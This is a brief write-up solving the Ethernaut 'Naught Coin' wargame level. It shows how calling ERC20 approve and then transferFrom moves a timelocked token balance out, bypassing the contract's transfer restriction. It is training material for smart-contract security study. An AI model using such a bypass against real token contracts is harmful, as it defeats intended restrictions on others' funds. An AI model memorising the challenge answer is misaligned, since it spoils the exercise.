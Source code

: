 # [Naught Coin](https://ethernaut.zeppelin.solutions/level/0xddf4eab541bf1373b70022c4cd81fe2a4ccf476a)
The interesting part about this challenge is that OpenZeppelin has changed its implementation of ERC20 and StandardToken.sol is no longer avaiable through github import in remix. I found the version that makes the code compile in remix in NaughtCoin.sol above. However, this is not required to pass this level.

The answer lies in these two functions:
```solidity
function approve(address _spender, uint256 _value) public returns (bool);
function transferFrom(
  address _from,
  address _to,
  uint256 _value
)
  public
  returns (bool);
```

solution:
```javascript
// first approve the player for all
contract.approve(player, 1000000 * (10 ** 18))
// then spend the approved amount
contract.transferFrom(player, '0x0', 1000000 * (10 ** 18))
```
